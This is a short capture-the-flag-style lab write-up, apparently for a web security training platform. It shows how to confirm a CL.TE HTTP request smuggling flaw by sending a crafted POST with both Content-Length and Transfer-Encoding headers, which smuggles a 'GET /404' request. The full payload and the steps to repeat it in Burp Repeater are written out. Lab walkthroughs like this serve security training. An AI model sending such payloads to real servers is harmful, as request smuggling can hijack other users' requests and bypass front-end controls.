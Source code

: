 # Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

> Lab Objective: smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

- Firstly you need to construct a CL.TE Payload to `/`, which is:

```http
POST / HTTP/1.1
Host: 0a9f000704cc4a9480598a9b00fa0094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

- Issue this request twice through Burp Repeater, the second request will receive a `404 Not Found` Response.

  - Response to first issued request:
    ![1st screenshot](./attachments/1.png)
  - Response to second issued request:
    ![2nd screenshot](./attachments/2.png)

- The Lab is solved.
  ![3rd screenshot](./attachments/3.png)

---
